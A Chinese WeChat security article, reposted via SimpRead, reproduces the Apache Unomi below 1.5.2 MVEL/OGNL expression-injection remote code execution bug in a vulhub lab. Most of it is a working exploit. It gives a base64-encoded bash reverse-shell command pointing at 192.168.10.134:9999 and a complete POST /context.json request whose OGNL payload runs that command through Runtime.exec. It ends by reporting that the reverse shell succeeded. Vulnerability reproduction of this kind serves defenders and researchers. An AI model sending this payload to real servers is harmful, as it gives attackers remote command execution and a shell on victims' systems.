 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/G4Pfte6IgKAhLxHqTUQUaQ)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

Apache Unomi 是一个基于标准的客户数据平台（CDP，Customer Data Platform），用于管理在线客户和访客等信息，以提供符合访客隐私规则的个性化体验。在 Apache Unomi 1.5.1 级以前版本中，存在一处表达式注入漏洞，远程攻击者通过 MVEL 和 OGNL 表达式即可在目标服务器上执行任意命令。

  
**影响版本:**  
Apache Unomi < 1.5.2  
**漏洞复现:**  
使用 vulhub 搭建 docker 环境，访问主页 http://192.168.10.128:8181/

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibuTnYgAYcNpgarKEWmOk6boTYicFGpXUJ9tXE1BjiaurJEKjibxva37DuPuBMiaMibcE4Fmedx8S8QnJQ/640?wx_fmt=png) 

  
将 bash 命令进行编码

（网站：http://www.jackson-t.ca/runtime-exec-payloads.html）

```
bash -c {echo,YmFzaCAtaSA JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjEzNC85OTk5IDA JjE=}|{base64,-d}|{bash,-i}
```

  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibuTnYgAYcNpgarKEWmOk6bia0ktDeyzb3h3P2QE6icpMDzjtUz6yYaokS4IPHUl60jv9MOHgL5SuicA/640?wx_fmt=png)   
监听端口  
 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibuTnYgAYcNpgarKEWmOk6b1d8QQxMpJra87KVhBI7On1X5loUr1U5Aic5fuRTy5GxfT8Y3VnxEfvQ/640?wx_fmt=png)   
抓包执行 poc  

```
POST /context.json HTTP/1.1
Host: 192.168.10.128:8181
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/80.0.3987.132 Safari/537.36
Connection: close
Content-Type: application/json
Content-Length: 1142

{
  "personalizations":[
    {
      "id":"gender-test",
      "strategy":"matching-first",
      "strategyOptions":{
        "fallback":"var2"
      },
      "contents":[
        {
          "filters":[
            {
              "condition":{
                "parameterValues":{
                  "propertyName":"(#runtimeclass = #this.getClass().forName(\"java.lang.Runtime\")).(#getruntimemethod = #runtimeclass.getDeclaredMethods().{^ #this.name.equals(\"getRuntime\")}[0]).(#rtobj = #getruntimemethod.invoke(null,null)).(#execmethod = #runtimeclass.getDeclaredMethods().{? #this.name.equals(\"exec\")}.{? #this.getParameters()[0].getType().getName().equals(\"java.lang.String\")}.{? #this.getParameters().length < 2}[0]).(#execmethod.invoke(#rtobj,\"bash -c {echo,YmFzaCAtaSA JiAvZGV2L3RjcC8xOTIuMTY4LjEwLjEzNC85OTk5IDA JjE=}|{base64,-d}|{bash,-i}iid\"))",
                  "comparisonOperator":"equals",
                  "propertyValue":"male"
                },
                "type":"profilePropertyCondition"
              }
            }
          ]
        }
      ]
    }
  ],
  "sessionId":"sample"
}
```

 ![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibuTnYgAYcNpgarKEWmOk6bQVP952G9hBZLILrp7aEpsAWshsGv1WOhrQhIHV6rMxIU8h3sKhpQCg/640?wx_fmt=png)   
反弹 shell 成功  
![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLibuTnYgAYcNpgarKEWmOk6bbsQ5zIia06t4lDFzJBFH43Wjb49BR8M9XC5dOxSczQtj6IQMq71llHA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)

推荐文章 ++++

![](https://mmbiz.qpic.cn/mmbiz_jpg/US10Gcd0tQFGib3mCxJr4oMx1yp1ExzTETemWvK6Zkd7tVl23CVBppz63sRECqYNkQsonScb65VaG9yU2YJibxNA/640?wx_fmt=jpeg)

*[nginx_parsing_vulnerability nignx 解析漏洞复现](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650495344&idx=3&sn=ea4023048dab524c675fcd0a48cd953a&chksm=83ba3c94b4cdb5825debc2a28aeed6637fe5226938c4e6ca2d68bbc09486910fb5e8124b57b5&scene=21#wechat_redirect)  

*[Apache Shiro 1.2.4 反序列化漏洞复现（CVE-2016-4437）](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650494540&idx=4&sn=7a0a2f2cb5508dd7582d7d80602b96ad&chksm=83ba33a8b4cdbabe575476e581209631877526b63dd96f7cb15881d12c50a2b6d0daae4ff78f&scene=21#wechat_redirect)

*[Ubuntu 漏洞复现](http://mp.weixin.qq.com/s?__biz=MzAxMjE3ODU3MQ==&mid=2650492546&idx=3&sn=aa9f2bcb6ef0aaad63d5b4c38f8e6ec1&chksm=83ba2b66b4cda270ebe240068b7e7af628f18bf676e80ec5aa487bc72fc67e0fde6847a72987&scene=21#wechat_redirect)

![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)